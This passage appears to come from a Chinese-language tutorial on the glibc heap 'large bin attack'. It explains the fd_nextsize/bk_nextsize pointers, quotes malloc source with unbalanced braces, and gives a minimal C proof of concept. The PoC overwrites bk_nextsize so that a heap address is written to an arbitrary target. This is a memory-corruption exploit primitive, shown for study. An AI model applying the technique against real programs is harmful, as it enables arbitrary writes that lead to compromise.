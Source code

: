 ##### &emsp;&emsp;&emsp;```fd_nextsize, bk_nextsize```是专门用于管理同一个large bin中不同大小的chunk的排列的, 这一组指针和上一组不同, 并不会连接```main_arena```<br>
##### &emsp;&emsp;&emsp;large bin attack主要攻击的是```fd_nextsize, bk_nextsize```这一组指针

##### &emsp;&emsp;&emsp; 看一段glibc源码
```c

if ((unsigned long) size == (unsigned long) chunksize_nomask (fwd)){
    /* Always insert in the second position.  */
    /// 当存在一个chunk的size与victim一致
    fwd = fwd->fd;
else{
        victim->fd_nextsize = fwd;
        victim->bk_nextsize = fwd->bk_nextsize;
        if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd))
            malloc_printerr ("malloc(): largebin double linked list corrupted (nextsize)");
        fwd->bk_nextsize = victim;
        victim->bk_nextsize->fd_nextsize = victim;
}
    bck = fwd->bk;
    if (bck->fd != fwd)
        malloc_printerr ("malloc(): largebin double linked list corrupted(bk)");
}

```
##### &emsp;&emsp;&emsp;有问题的语句在```victim->bk_nextsize = fwd->bk_nextsize```和```victim->bk_nextsize->fd_nextsize = victim;```, 即当找不到一个相同size的chunk, 目标victim必须生成一对```nextsize```, 来管理它自己size大小的large chunks, 问题在于缺少对于```fwd->bk_nextsize```的检查, 它实际上有可能被篡改为其他地址<br>
##### &emsp;&emsp;&emsp;现给出一个实现该large bin attack的最小利用
```c
#include <stdio.h>
#include <stdlib.h>

/// @note 假设我们需要将一个堆地址写到a[4]的位置

size_t a[6];

int main(){
    size_t *p1 = malloc(0x420);
    malloc(0x18);
    void *p2 = malloc(0x410);
    malloc(0x18);
    free(p1);

    malloc(0x440); // clear unsorted bins

    p1[3] = &a[0]; // largebin.bk_nextsize = target - 0x20

    free(p2);
    
    malloc(0x440); /* clear unsorted bins
                    * and trigger the attack
                    */
    return 0;
}
```
##### &emsp;&emsp;&emsp;```p1[3] = &a[0]```之后, ```bk_nextsize```变成了```&a[0]```的形状